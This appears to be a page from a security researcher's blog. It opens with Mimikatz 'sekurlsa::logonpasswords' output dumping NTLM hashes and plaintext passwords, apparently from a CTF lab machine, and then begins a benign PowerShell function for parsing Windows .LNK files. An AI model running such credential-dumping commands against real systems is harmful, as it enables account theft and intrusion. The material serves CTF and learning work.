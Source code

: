 ```plain
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 2843824 (00000000:002b64b0)
Session           : Interactive from 0
User Name         : security
Domain            : ACCESS
Logon Server      : ACCESS
Logon Time        : 10/12/2018 10:03:59 AM
SID               : S-1-5-21-953262931-566350628-63446256-1001
    msv :
     [00000003] Primary
     * Username : security
     * Domain   : ACCESS
     * NTLM     : b41db16a61cb04b231625de260163015
     * SHA1     : 75f1e3aa023a0f57d4225f3ab4f18f6fea025414
    tspkg :
     * Username : security
     * Domain   : ACCESS
     * Password : 4Cc3ssC0ntr0ller
    wdigest :
     * Username : security
     * Domain   : ACCESS
     * Password : 4Cc3ssC0ntr0ller
    kerberos :
     * Username : security
     * Domain   : ACCESS
     * Password : 4Cc3ssC0ntr0ller
    ssp :
    credman :
     [00000000]
     * Username : ACCESS\Administrator
     * Domain   : ACCESS\Administrator
     * Password : 55Acc3ssS3cur1ty@megacorp
     [00000001]
     * Username : access\engineer
     * Domain   : access\engineer
     * Password : (null)
```

PowerShell Parse-LnkFile is good for you
----------------------------------------

C'est mon premier script PowerShell, tout commentaire est le bienvenue :  

```plain
function Parse-LnkFile{
<#
    .SYNOPSIS

        Parse-LnkFile extracts several informations from a Windows .LNK file.

    .DESCRIPTION

        Returns an object with several informations about a .LNK file : .LNK path on the disk, path of the target, arguments for that target and whether the target is on disk or not.

    .PARAMETER
        A FileInfo object for a .LNK file or a path (string).

    .AUTHOR
        Nicolas SURRIBAS aka devloop

    .LINK
        http://devloop.users.sourceforge.net/
```